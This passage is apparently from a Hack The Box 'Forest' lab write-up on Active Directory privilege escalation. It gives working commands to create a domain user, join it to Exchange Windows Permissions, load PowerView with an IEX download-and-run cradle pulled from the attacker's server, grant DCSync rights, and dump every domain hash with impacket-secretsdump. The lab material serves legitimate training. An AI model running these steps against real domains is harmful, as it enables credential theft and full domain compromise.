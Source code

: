 Now, we've got to tailor our path. Right click on `svc-alfresco` and choose "Shortest Paths from Owned Principles" in the analysis tab. We should get a result like the following:

![Image](/assets/Screenshot 2024-09-15 at 1.32.36 AM.png)

Now, there's a lot here, so let's go step by step. 

`svc-alfresco` is a member of `Service Accounts`, and by proxy, a member of `Privileged IT Accounts` and `Account Operators`. Doing research on `Account Operators`, we learn that they grant limited account creation privileges to a user, meaning that as `svc-alfresco`, we can create other users on the domain. 

There're great diagram, graphs, and explanations in this tool, so whenever you find yourself back here, take a look at all of the options and paths around a domain, and right click on the edges to learn about abuse of privileges and whatnot. 

So the plan of action is to create a new user, add the user to the `Windows Exchange Group`(where we have `GenericAll` permissions), give the user DcSync privileges with our `WriteDacle` permission, perform a DcSync attack to get all of the user hashes on the domain, and then pass them for administrator access.

Let's add a new user: `net user bobby password /add /domain`, and confirm his existence with `net user /domain`

![Image](/assets/Screenshot 2024-09-15 at 2.03.46 AM.png)

Now, prepare to add him to the `Exchange Windows Permission` group: `net group "Exchange Windows Permissions" /add bobby`. Be timely in these next steps, as there is a [script](https://0xdf.gitlab.io/2020/03/21/htb-forest.html) that I read about that will revoke DcSync privileges every minute or so.

We'll need to grant ourselves DcSync capabilities with an exploit. PowerView is the way I've done it, but there are one-liners online and in Bloodhound! Look in your `/usr/share/windows-resources/powersploit/Recon` directory and copy the file to the working directory. Fire up a python server in the working directory on Kali, I'd run into execution issues when trying with the SMB server. Use IEX string to download:

`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.3:8000/PowerView.ps1')`

Then, run these commands back to back. These will give `bobby` those DcSync privileges.

`$pass = convertto-securestring 'password' -AsPlainText -Force`

`$cred = New-Object System.Management.Automation.PSCredential('htbobby', $pass)`

`Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity bobby -Rights DCSync`

![Image](/assets/Screenshot 2024-09-15 at 2.37.18 AM.png)

Now, on our attacker machine, use `impacket-secretsdump` to gather hashes so that we can pass them with `evil-winrm`. (For reference, I tried this same thing with manually installed `impacket`, but no dice. Maybe Python configuration or something? Look into it.)

`impacket-secretsdump htb.local/bobby:password@10.10.10.161`

![Image](/assets/Screenshot 2024-09-15 at 2.37.42 AM.png)
